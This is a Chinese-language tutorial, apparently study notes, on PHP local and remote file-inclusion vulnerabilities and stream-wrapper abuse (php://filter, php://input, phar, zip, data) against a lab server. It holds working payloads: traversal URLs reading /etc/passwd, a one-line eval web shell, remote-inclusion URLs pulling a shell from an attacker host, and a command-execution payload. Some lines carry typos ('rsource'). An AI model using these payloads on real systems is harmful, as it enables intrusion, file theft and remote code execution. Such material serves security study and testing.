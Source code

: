# 文件包含漏洞

## 一、本地文件包含

### 1.源代码

```php
$filename = $_GET['filename'];
include $filename;
echo "欢迎来到PHP世界"
```

### 2.利用条件

-  php.ini中allow_url_fopen=On（默认开启）和allow_url_include=off（默认关闭）开启
-  用户参数可控且后台代码没有对包含的文件进行过滤

### 3.利用方式

```
http://192.168.101.2/fileinc.php?filename=login.html

http://192.168.101.2/fileinc.php?filename=/opt/lampp/logs/access_log

http://192.168.101.2/fileinc.php?filename=../../../../etc/passwd

http://192.168.101.2/fileinc.php?filename=php://filter/read/convert.base64-encode/resource=common.php
```

## 二、远程文件包含

### 1.利用条件

- php.ini中allow_url_fopen=On（默认开启）和allow_url_include=off（默认关闭）开启
- 用户参数可控且后台代码没有对包含的文件过滤

### 2.利用方式

```php
// 木马文件
<?php
    @eval($_GET['code']);    // 一句话木马
	
	// 也可以直接创建木马到目标服务器进行利用
	// file_put_contents("temp/muma.php",'<?php @eval($_GET['code']); ?>')
?>
```

```
// 这种方式执行的是攻击者101.1的phpinfo命令
http://192.168.101.2/fileinc.php?filename=http://192.168.101.1/shell.php?code=phpinfo();

// 将php的后缀改成txt这种不可执行的才能让目标101.2执行phpinfo命令
http://192.168.101.2/fileinc.php?filename=http://192.168.101.1/shell.txt&code=phpinfo();

// 如果直接创建木马文件到目标服务器可以不带参数
http://192.168.101.2/fileinc.php?filename=http://192.168.101.1/shell.txt
```

## 三、PHP伪协议利用

### 1.伪协议

- php支持以下几种协议

  ```
  file:// — 访问本地文件系统
  http:// — 访问 HTTP(s) 网址
  ftp:// — 访问 FTP(s) URLs
  php:// — 访问各个输入/输出流（I/O streams）
  zlib:// — 压缩流
  data:// — 数据（RFC 2397）
  glob:// — 查找匹配的文件路径模式
  phar:// — PHP 归档
  ssh2:// — Secure Shell 2
  rar:// — RAR
  ogg:// — 音频流
  expect:// — 处理交互式的流
  ```

- php://是一种伪协议，主要是开启了一个输入输出流，理解文件数据传输的一个通道。PHP中的伪协议尝试用的有以下：

  - php://input
  - php://filter
  - phar://

### 2.php://filter 

- 当直接包含一个php文件时，会被web容器解析，看不到源码信息

  - 如：`http://192.168.101.2/fileinc.php?filename=common.php`

  - 使用php://伪协议可以将源码读取出来

    ```
    // 以下将common.php的内容以base64方式读取，通过解码得到明文
    http://192.168.101.2/fileinc.php?filename=php://filter/read/convert.base64-encode/rsource=common.php
    ```

### 3.php://input

- `php://filter/read/convert.base64-encode/rsource=php://input`然后以POST的方式传输`<?php system('ifconfig') ?>`等php代码执行命令，也可以直接上传大马

### 4.phar://

- 主要用于在php中对压缩文件格式的读取。这种方式通常是用来配合文件上传漏洞使用，或者进阶的phar反序列化攻击

- 要给目标主机写入文件，可以直接想办法上传，也可以攻击服务器到命令行使用wget或curl下载

- 使用：

  - 先通过其他方式将压缩文件shell.zip上传到目标主机/temp/中

  - 通过phar://伪协议将压缩包中的shell.txt读取从而利用

    ```
    php://filter/read/convert.base64-encode/rsource=phar://temp/shell.zip/shell.txt
    ```

### 5.zip://

- 对压缩文件进行读取曹祖，原理与用法和phar几乎一样。区别是：
  - 压缩文件的目录符号需要将`/`替换为`#`，且要将`#`进行url编码为`%23`
  - zip只能包含单级目录，即不能/shell%23folder%23shell.txt

### 6.data://

- data://本身是数据流封装器，原理与用法和php://input类似，但是是发送GET请求参数
- `data://text/plain,<?php phpinfo(); ?>`